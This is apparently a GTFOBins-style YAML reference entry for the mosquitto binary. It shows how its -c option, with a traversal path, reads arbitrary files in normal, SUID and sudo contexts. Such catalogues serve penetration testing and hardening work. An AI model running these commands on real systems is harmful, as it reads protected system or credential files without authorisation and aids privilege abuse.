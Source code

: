 ```yaml
---
description: The `-c` argument should be used. The first string of `LFILE` ending with '\0' or '\n' is returned as the output.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        /usr/sbin/mosquitto -c "/../../$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./mosquitto -c "/../../$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo mosquitto -c "/../../$LFILE"
---
```

